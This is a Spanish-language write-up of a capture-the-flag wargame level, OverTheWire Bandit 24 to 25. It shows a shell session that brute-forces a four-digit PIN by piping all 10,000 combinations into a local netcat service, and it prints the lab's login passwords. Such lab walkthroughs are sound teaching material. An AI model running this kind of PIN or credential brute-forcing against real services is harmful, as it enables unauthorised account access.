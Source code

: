 
# Level 24 a 25

## Objetivo
```
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.
```
	
## Datos de acceso
	usuario: bandit24
	contraseña: VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
## Solución
``` Shell 
	bandit24@bandit:~$ nc localhost 30002
	I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
	VAfGXJ1PBSsPSnvsjI8p759leLZ9GGarTimeout. Exiting.
	VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 9999
	bandit24@bandit:~$ echo {0000..0005]
	{0000..0005]
	bandit24@bandit:~$ echo {0000..0005}
	0000 0001 0002 0003 0004 0005
	
	bandit24@bandit:~$ for i in {0000..9999}; do echo VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i; done | nc localhost 30002 | grep -v Wrong!
	I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
	Correct!
	The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d
	
	Exiting.
	bandit24@bandit:~$

```

## Notas adicionales
	Creamos un for para encontrar la contraseña
## Referencias 